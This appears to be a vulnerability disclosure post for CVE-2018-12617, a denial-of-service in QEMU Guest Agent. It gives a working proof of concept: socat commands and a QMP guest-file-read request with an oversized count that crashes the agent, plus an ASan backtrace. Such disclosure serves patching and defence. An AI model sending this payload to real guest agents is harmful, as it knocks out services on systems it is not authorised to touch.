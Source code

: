 ```yaml
---
layout: post
title: "QEMU Guest Agent Denial of Service"
comments: true
description: "QEMU Guest Agent Denial of Service"
keywords: "qemu, qemu-ga, dos, denial of service"
---
```


Exploit Title: QEMU Guest Agent Denial of Service<br>
Date: 2018-06-07<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.qemu.org/<br>
Software Link: https://www.qemu.org/download/<br>
Version: 2.12.50 and earlier<br>
Tested on: 2.12.50<br>
CVE : CVE-2018-12617<br>

QEMU Guest Agent 2.12.50 and earlier has an integer overflow causing a g_malloc0() call to trigger a segfault() call when trying to allocate a large memory chunk. The vulnerability can be exploited by sending a specific QMP command to the agent via the listening socket.

1st, execute the guest-agent using the following command:

```
$ qemu-ga -m unix-listen -p /tmp/qga.sock -t /tmp
```

2nd, on the other console, connect to the UNIX socket using socat:

```
$ socat unix-connect:/tmp/qga.sock -
```

3rd, enter the following QMP command:

```
{"execute":"guest-file-open", "arguments":{"path":"/tmp/poc","mode":"w+”}}
{"return": 1000}
{"execute":"guest-file-read", "arguments":{"handle":1000,"count":4294967295}}
```

The guest-file-read must be specified with the correct handle value (file descriptor). Different files will have different handle value.

```
#0 0x5598eed0a1af in calloc /home/user/llvm/projects/compiler-rt/lib/asan/asan_malloc_linux.cc:107
#1 0x7f2ce5d7d770 in g_malloc0 (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4f770)
#2 0x5598eed84996 in qmp_marshal_guest_file_read /home/user/qemu/qga/qapi-generated/qga-qapi-commands.c:425:14
#3 0x5598eeda4fcf in do_qmp_dispatch /home/user/qemu/qapi/qmp-dispatch.c:119:5
#4 0x5598eeda4fcf in qmp_dispatch /home/user/qemu/qapi/qmp-dispatch.c:168
#5 0x5598eed59bff in process_command /home/user/qemu/qga/main.c:589:11
#6 0x5598eed59bff in process_event /home/user/qemu/qga/main.c:626
#7 0x5598eedb5f13 in json_message_process_token /home/user/qemu/qobject/json-streamer.c:105:5
#8 0x5598eee25d9b in json_lexer_feed_char /home/user/qemu/qobject/json-lexer.c:323:13
#9 0x5598eee25333 in json_lexer_feed /home/user/qemu/qobject/json-lexer.c:373:15
#10 0x5598eed5a95e in channel_event_cb /home/user/qemu/qga/main.c:659:9
#11 0x5598eed710c1 in ga_channel_client_event /home/user/qemu/qga/channel-posix.c:92:23
#12 0x7f2ce5d78049 in g_main_context_dispatch (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4a049)
```
---
References:
1. https://lists.gnu.org/archive/html/qemu-devel/2018-06/msg03385.html
